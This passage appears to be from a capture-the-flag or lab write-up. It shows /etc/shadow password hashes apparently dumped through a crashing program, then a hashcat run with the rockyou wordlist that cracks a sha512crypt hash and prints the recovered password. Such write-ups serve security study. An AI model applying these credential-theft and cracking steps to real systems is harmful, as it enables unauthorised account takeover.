 ```
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:18277:0:99999:7:::
uuidd:*:18277:0:99999:7:::
papa:$1$ORU43el1$tgY7epqx64xDbXvvaSEnu.:18277:0:99999:7:::
Segmentation fault
pingu@ubuntu:/tmp$ 
```
# Finishing the job
```
└─$ hashcat -m 1800 for_hashcat.txt /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.0+debian  Linux, None+Asserts, RELOC, LLVM 14.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.:love2fish
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1800 (sha512crypt $6$, SHA512 (Unix))
Hash.Target......: $6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.o...x00Ck.
Time.Started.....: Tue Jan 10 21:47:52 2023 (10 mins, 46 secs)
Time.Estimated...: Tue Jan 10 21:58:38 2023 (0 secs)

```

